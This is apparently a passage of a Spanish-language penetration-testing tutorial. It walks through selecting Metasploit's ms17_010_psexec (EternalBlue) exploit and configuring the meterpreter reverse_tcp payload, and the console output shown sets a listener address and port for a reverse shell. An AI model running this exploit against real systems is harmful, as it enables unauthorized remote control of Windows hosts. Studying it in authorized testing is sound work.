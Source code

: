 ```plaintext
   3  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   4  auxiliary/scanner/smb/smb_ms17_010                              normal   No     MS17-010 SMB RCE Detection
   5  exploit/windows/smb/smb_doublepulsar_rce       2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution
```

Para este caso, utilizamos la función de búsqueda en Metasploit (MSF) para encontrar un exploit relacionado con **EternalBlue**. El resultado anterior muestra varias opciones, y elegimos el exploit **ms17\_010\_psexec**, que es la tercera opción, ya que hemos tenido éxito con esta versión en el pasado.

### Configurar el Exploit y Payload

```plaintext
msf6 > use 2
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_psexec) > options

Module options (exploit/windows/smb/ms17_010_psexec):

   Name                  Current Setting              Required  Description
   ----                  ---------------              --------  -----------
   DBGTRACE              false                        yes       Show extra debug trace info
   LEAKATTEMPTS          99                           yes       How many times to try to leak transaction
   NAMEDPIPE                                          no        A named pipe that can be connected to (leave blank for auto)
   NAMED_PIPES           /usr/share/metasploit-framework/data/wordlists/named_pipes.txt yes       List of named pipes to check
   RHOSTS                                             yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                 445                          yes       The Target port (TCP)
   SHARE                 ADMIN$                       yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
   SMBDomain             .                            no        The Windows domain to use for authentication
   SMBPass                                            no        The password for the specified username
   SMBUser                                            no        The username to authenticate as

Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.86.48    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port
```

Asegúrate de configurar correctamente las opciones del payload antes de ejecutar el exploit. Los campos **RHOSTS**, **LHOST** y **LPORT** son esenciales. En este ejemplo, dejamos el payload en la configuración predeterminada, que es **windows/meterpreter/reverse\_tcp**.
